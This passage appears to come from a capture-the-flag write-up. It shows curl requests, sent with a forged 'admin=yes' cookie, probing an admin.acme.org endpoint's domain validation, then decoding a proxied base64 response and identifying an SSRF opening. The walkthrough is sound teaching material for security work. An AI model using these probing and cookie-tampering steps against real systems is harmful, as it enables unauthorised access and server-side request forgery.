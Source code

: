 ## :computer: The Actual admin.acme.org Feature :computer:

Now that we know we're dealing with JSON, let's try some payloads and see how
the app reacts. The next few steps are pretty much self explanatory...
Take the time to read through the commands I've used below :)

```bash
$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{}'
{"error":{"domain":"required"}}

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{"domain" : "test"}'
{"error":{"domain":"incorrect value, .com domain expected"}}

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{"domain" : "test.com"}'
{"error":{"domain":"incorrect value, .com domain expected"}}

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{"domain" : "www.test.com"}'
{"error":{"domain":"incorrect value, sub domain should contain 212"}}

$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{"domain" : "212.test.com"}'
{"next":"\/read.php?id=0"}

$ curl http://admin.acme.org/read.php?id=0 -b 'admin=yes'
{"data":"PGh0bWw+DQo8aGVhZD48dGl0bGU+MzAyIEZvdW5kPC90aXRsZT48L2hlYWQ+DQo8Ym9keSBiZ2NvbG9yPSJ3aGl0ZSI+DQo8Y2VudGVyPjxoMT4zMDIgRm91bmQ8L2gxPjwvY2VudGVyPg0KPGhyPjxjZW50ZXI+bmdpbngvMS4xMy40PC9jZW50ZXI+DQo8L2JvZHk+DQo8L2h0bWw+DQo="}

$ echo "PGh0bWw+DQo8aGVhZD48dGl0bGU+MzAyIEZvdW5kPC90aXRsZT48L2hlYWQ+DQo8Ym9keSBiZ2NvbG9yPSJ3aGl0ZSI+DQo8Y2VudGVyPjxoMT4zMDIgRm91bmQ8L2gxPjwvY2VudGVyPg0KPGhyPjxjZW50ZXI+bmdpbngvMS4xMy40PC9jZW50ZXI+DQo8L2JvZHk+DQo8L2h0bWw+DQo=" | base64 -D
<html>
<head><title>302 Found</title></head>
<body bgcolor="white">
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.13.4</center>
</body>
</html>
```

Okay! So essentially, we have to give the application a domain name starting with **212**
and ending with **.com**.

Upon success, we're given a link to a `read.php?id=` page which when visited, shows us
what seems to be the HTTP response of **212.test.com** encoded in base64.

We can assume that this **admin.acme.org** web server is actually a web proxy of some sort : we
give it a domain, it fetches the response for us.

This feature screams **SSRF**! :scream:
